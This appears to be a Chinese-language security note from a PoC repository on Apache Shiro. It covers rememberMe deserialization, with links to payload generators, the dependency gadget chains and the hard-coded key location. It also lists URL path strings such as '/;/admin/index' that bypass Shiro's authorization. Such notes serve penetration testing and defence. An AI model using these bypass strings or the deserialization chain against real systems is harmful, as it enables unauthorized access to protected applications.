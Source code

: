 ## Shiro反序列化
- [Java版payload生成](https://github.com/shadowsock5/Poc/blob/master/Shiro/ShiroDeser.java)
- [Python版payload生成](https://github.com/shadowsock5/Poc/blob/master/Shiro/shiro_deser.py)

### 反序列化利用链
从Shiro-core官方的pom.xml文件中可以看出，在项目通过pom.xml引入shiro-core时，会自动引入commons-beanutils。当shiro-core的版本改变时，CB的版本也会随之改变。通过测试发现，shiro从1.2.4到1.3.2依赖的都是CB-1.8.3。而在shiro-1.3.2的下一个版本1.4.0中依赖的CB是1.9.3，从这个shiro版本开始，引入shiro依赖的项目会依赖CC3.2.2。
参考：
- https://github.com/apache/commons-beanutils/blob/BEANUTILS_1_9_1/pom.xml#L278
- https://github.com/apache/shiro/blob/shiro-root-1.4.0/pom.xml#L832
- https://github.com/apache/shiro/blob/shiro-root-1.3.2/pom.xml
- https://github.com/apache/shiro/blob/shiro-root-1.2.4/pom.xml#L617

### 说明
- 1.2.4的key硬编码在`org\apache\shiro\mgt\AbstractRememberMeManager.java`这个文件里；
- 1.2.4以上（1.2.5开始）的key在AbstractRememberMeManager构造方法里是这样写的：
```java
this.setCipherKey(cipherService.generateNewKey().getEncoded());
```
可以直接调这个接口，这样得到的key就是随机的。当然开发者也可以通过配置文件配置，比如`shiro.ini`, `xxx-shiro-xml`等制定一个自己实现的RememberMeManager（继承自`CookieRememberMeManager`），然后`applications.properties`里面配置这个硬编码的seed。如果攻击者知道了这个seed，可以方便地拿到shiro的key。
- 1.4.2以后，从`CBC`模式变成了`GCM`模式，需要相应地修改一下代码。

## Shiro权限绕过
比如想要访问的敏感url为：
```
/admin/index
```
假设`/static` 路径不需要认证即可访问。

绕过姿势：
- /admin/index/
- /;/admin/index
- /static;/admin/index
- /static;/../admin/index
- /static/..;/admin/index
- /admin/index%25%32%46index
- /admin/%3bindex


## 参考
- https://www.cnblogs.com/loong-hon/p/10619616.html
- https://www.codenong.com/cs106643678/
